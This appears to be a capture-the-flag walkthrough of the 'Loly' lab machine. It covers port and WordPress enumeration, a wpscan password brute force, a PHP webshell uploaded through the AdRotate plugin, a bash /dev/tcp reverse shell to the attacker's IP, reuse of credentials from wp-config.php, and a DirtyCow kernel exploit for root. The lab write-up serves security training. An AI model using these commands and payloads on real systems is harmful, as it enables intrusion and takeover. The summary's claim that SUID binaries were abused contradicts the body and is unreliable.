


## Machine Information

- **Machine Name:** Loly
- **Machine IP:** 192.168.103.121
- **Machine Type:** Intermediate
- **Machine OS:** Linux

---
## Reconnaissance - Information Gathering

In a battle of computers, information is the best weapon against your enemy. It is the information that initiate a hack, it is the information that leads a hack, and it is the information that motivates a hack to reach its end goal; What is the end goal of hacking? "Information". Reconnaissance is not just the first step, it will remain till the end of the hack. Most of the people who are not sound in recon, fail in their hacks, not because they are less technical, but because they lack recon.

> *"Information is the 2FA to your bank account, or your entire digital life is a piece of information. Do not let companies buy it from you, and resell it for profit"*

### Ports and Services Scan

In the beginning, when we only have an IP address, we must scan for open ports and services that we can interact with, because interaction is what will give us access to the system. We only need one vulnerable port and a malicious interaction, and we will be in, but to achieve that we will requires a deep understanding about the map of the machine, the ports.

**Commands:**
- `sudo nmap -sT -p0-65535 -T4 Loly.pg -oG scan/nmapTCP.txt`
- `sudo nmap -sU -p0-65535 --min-rate 10000 --open Loly.pg -oN scan/nmapUDP.txt`
- `sudo nmap -sVC -p80 -O Loly.pg -oN scan/nmapTCPFull.txt`

I started my scan from TCP ports, and as we can see there is only one port open, and in UDP we got no port which means that port 80 is definitely the vulnerable port. Most of the times, there will be multiple ports, especially in an Active Directory Machine, but surprisingly for us we only have port 80 to look at.

Here, port 80 is running `nginx/1.10.3` service, and as per my knowledge the latest version is something around *1.20...*, so definitely this version is outdated. There is a thing about outdated services, they are like a home without door because there are so many available exploits that even a script kiddie can pull-up a hack.

### HTTP (80) Recon

Now, we know what kind of service is running on what port, so we will start digging deep into that service (http) to find a perfect loophole to exploit. Here, we have a `http` service which means there is a website, and if it is accessible then there might be some web app exploits, such as SQL injection, Cross-site scripting, or Cross-site request forgery. 

**Commands:**
- `curl http://Loly.pg`
- `gobuster dir -u http://Loly.pg/ -w /usr/share/wordlists/dirb/common.txt -x php,sh,txt -o scan/gobuster80.txt`
- `nikto -h http://Loly.pg/`

The root (/) dir of the website is nothing but a default nginx page, now you might thing that the machine is unhackable because there is no real page to interact with and no other ports are open, but in reality there are many possible things to look for. 

>*"A default page does not mean there is no website, it simply means you are looking at a wrong direction"*

Next step was to look for sub-directories, and backend stuff on the website. In the `gobuster` command which was brute-forcing directories, we found that there is a `301` status code in `/wordpress` directory, which means the website is running wordpress. In the `nikto` output, we can verify that wordpress is indeed running as a backend technology.

---
## Initial  Foothold - Break into the machine

In our recon step, we found that the box was having `80/tcp` port which was running `http` service, and the software is `nginx/1.10.3` which ultimately takes us to the piece of information that the website is running `wordpress`. Now, after all the information, we will try to find a way inside the machine.

>*"Initial Foothold, the grand entrance of an anomaly in a system. In our case, the anomaly is the hacker, it is us!"*

### Enumerating Wordpress

Through our research, we know that the machine is running wordpress, but we do not know what version, or what plugins, or what users are connected to the wordpress. There are many tools to gather all these information, but `wpscan` is my all-time favorite.

**Commands:**
- `sudo wpscan --url http://Loly.pg/wordpress/ --api-token $WPAPI`
- `sudo wpscan --url http://Loly.pg/wordpress/ -e u`
- `sudo wpscan --url http://Loly.pg/wordpress/ --usernames Loly --passwords /usr/share/wordlists/rockyou.txt`

Firstly, we will have to figure out the version and plugins, and through our *api token* we can enumerate available vulnerabilities and exploits on the wordpress. Considering this machine is very old, there are many vulnerabilities shown to us but none of them looks interesting to me. Honestly, I tried few but failed so I decided to look up something else.

Next thing, I tried looking for associated users on the wordpress, and we found **Loly** user as one of the user. Interestingly, if we find any user then there is a way to brute force the password for that user through wpscan.

I tried brute-forcing the password with the famous `rockyou.txt` wordlist, and our Loly user has a cute-little password as *"fernando"*. Well, you must know that why we went for a username and password, because there are many ways to exploit a machine through an **Authenticated Wordpress exploit**, but without authentication there is not much we can do here.

### AdRotate - File Upload Exploit

`AdRotate` is a popular WordPress plugin designed to help users manage and display advertisements on their websites. It allows for easy creation, scheduling, and placement of ads, including those from various networks like *Google AdSense and Amazon Affiliate*.

After logging through the known credentials to WordPress (/wp-login.php) we first see the plugin being used is **AdRotate**. I was not much sure about vulnerabilities in AdRotate, so I tried looking at other stuff like adding a new plugin, users, settings, etc. Unfortunately, I found nothing and decided to enumerate AdRotate, and if we do a little google search then we can see that AdRotate has a file upload vulnerability, the problem was, I could not found the available exploit or how to perform the hack, so I decided to replicate the hack by myself without any knowledge.

>*Note: Before logging into the wordpress or accessing the site, make sure to add Loly.lc to your /etc/hosts file. It is the domain name for the machine, without that you will end up with an error.*

The version of the AdRotate I found is 5.8.3, and if we go through it then there is one place where we can upload files as banners, in **Manage Media**. Now, as per the things I read, it was a double extension exploit which means that we will have to upload a file with 2 extensions, and by that we can execute the code. *What extension or language is known for WebShells? Any guesses?*. Yes correct, it is the well-known PHP, so we will use a PHP webshell with a *.php.zip* extension and it will be zipped.

**Commands:**
- `ls -al zero.php`
- `cat zero.php`
- `zip -r zero.php.zip zero.php`
- `ls -al zero.php.zip`

I developed a basic PHP webshell which gets the request from cmd parameter and executes it as a system command. I also zipped it with double extension so we do not get blocked by any web-application firewall.

Bingo! We were successfully able to upload the file as banner and we executed the PHP file from `http://Loly.lc/wordpress/wp-content/banners/zero.php` and we executed `whoami` which gave us an appropriate response. Now, we just need a way to convert this webshell into a reverse shell.

**URL-encode this:**
- `/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.237/9001 0>&1'`

**Command:**
- `nc -lvnp 9001`

I URL-encode the above mentioned string which will give us a reverse shell at our nc listener running on port `9001`. When you executed that URL-encoded string as a value to `cmd` parameter in webshell, you will get connected to the system through nc listener. As the image shows that we were successfully able to receive the shell of www-data user.

I tried looking for the flag, but there was another user on the system named Loly, so I thought maybe we will have to access Loly to get the flag, but we were wrong. After a good amount of time usage, we were able to find the local flag in `/var/www/` directory.

---

## Privilege Escalation - Gimme the root

Now you might think, we have successfully hacked our way into the system so now what? Well, in a general scenario we will always receive a user-level or limited access of the system in initial foothold, if we want admin or root level access then the next step should be to find a way to elevate our rights as root. Once we become root user, we become the God of the system.

### Shell as Loly - Lateral Movement

I tried executing `sudo -l` from www-data user session but we were not sudo user, and I was not able to find one single binary that we could have used to elevate our privileges, so I decided to hack Loly user with an expectation that she might have sudo rights.

**Commands:**
- `cat /var/www/html/wordpress/wp-config.php`
- `su - Loly`

We do know that the website was running WordPress, so I know a configuration file that might have MySQL credentials, which is `wp-config.php` file. We do find MySQL credentials here, but before using it on MySQL, I would like to use it on Loly user, because the password is probably set by Loly and she might have reused it in his user session.

**Creds -** Loly:Lolyisbeautifulgirl

We were right, Loly indeed had reused that password in that configuration file. Now that we are Loly, we can go through the system smoothly and figure out a way to get the root shell.

### DirtyCow - Privilege Escalation

After getting the Loly user shell, I tried searching for sudo binaries or SUID binaries but shockingly, Loly is not a sudo user and there were no suid binaries which can be used for privilege escalation. I then searched for any abnormal things, like passwords in configuration files, processes running by root, any script executed under certain minutes by root, etc. But we were not able to find anything interesting, and after doing all manual checks, I decided to execute linpeas on the target machine.

**Commands (Attacker):**
- `sudo cp /usr/share/peass/linpeas/linpeas.sh .`
- `sudo chown zerox30:zerox30 linpeas.sh`
- `python3 -m http.server 80`

**Commands (Target):**
- `wget http://[myIP]/linpeas.sh`
- `sudo chmod +x linpeas.sh`
- `./linpeas.sh`

We successfully transferred the `linpeas.sh` script on the target machine through our python-based http server running on port 80. Linpeas is a good script that will automatically find many things, but before this I recommend doing manual enumeration so that you can get a proper understanding about the target machine.

We executed linpeas and found many interesting things, but the one which grabbed my attention the most was **CVE-2016-5195 dirtycow** vulnerability. I have used this vulnerability previously in many machines, so I am very much sure that we can exploit it without any troubles. The DirtyCow *[CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)* vulnerability is a race condition exploit in the Linux kernel that allows local users to gain write access to read-only memory mappings, potentially leading to privilege escalation and system compromise. It specifically affects the *copy-on-write (COW)* mechanism used by the kernel.

**Commands (Attacker):**
- `ls`
- `python3 -m http.server 80`

**Commands (Target):**
- `wget http://[myIP]/privEsc.c`
- `gcc -pthread privEsc.c -o privEsc`
- `./privEsc`

**Link:** [DirtyCow Exploit](https://www.exploit-db.com/exploits/40616)

We downloaded the C source code of exploit on our attacker machine and then we transferred it to the target machine. We compiled the C source code on the target machine and executed it. YEAHHH! We were able to get the root shell and got the final flag.

---

## 🧾 Conclusion

The *Loly* machine offered a practical, hands-on experience simulating a real-world vulnerability chain. It challenged users to think critically about web application security and system misconfigurations. By combining enumeration, exploitation, and privilege escalation techniques, we gained full system access through a series of strategic steps.

### 📚 Lesson Learned

- 🔍 Always perform thorough enumeration—especially on web applications and file 
  upload functionalities.
- ⚠️ Insecure upload mechanisms are still common and can be a major entry point 
  for attackers.
- 🔑 Weak or reused credentials often serve as low-hanging fruit in privilege 
  escalation paths.
- 🧰 Local misconfigurations like improper permissions or unsafe SUID binaries 
  can easily lead to root.

### 🛠️ Vulnerabilities: what we exploited

- 🖼️ **Unrestricted File Upload** – A poorly secured file upload feature enabled 
  us to upload a malicious script and achieve Remote Code Execution (RCE).
- 🔐 **Credential Reuse / Weak Passwords** – Gained access by exploiting reused 
  or guessable login credentials.
- 📈 **Privilege Escalation via Misconfigured Permissions** – Abused SUID binaries 
  or improperly set permissions to escalate to root.

### 🛡️ Fixes: How can we fix it?

- 🚫 Validate all uploaded files for type, size, and extension. Avoid executing or 
  storing files in publicly accessible paths without strict checks.
- 🔒 Enforce strong password policies and avoid using default or hardcoded credentials 
  in scripts and services.
- 🧹 Regularly audit SUID binaries and remove unnecessary elevated permissions, 
  especially from custom executables.
- 🔄 Keep software and dependencies updated, and perform routine internal security 
  audits to catch and fix misconfigurations early.

### 🧾 Last Line

If you liked this walkthrough and it helped your red-teaming, blue-teaming or general cyber-security skills and gave you a mindset of a hacker to solve further challenges, then do join my discord server for similar experience.

- [Discord](https://discord.gg/wyfwSxn3YB)
- [Instagram](https://www.instagram.com/_0x30_/)

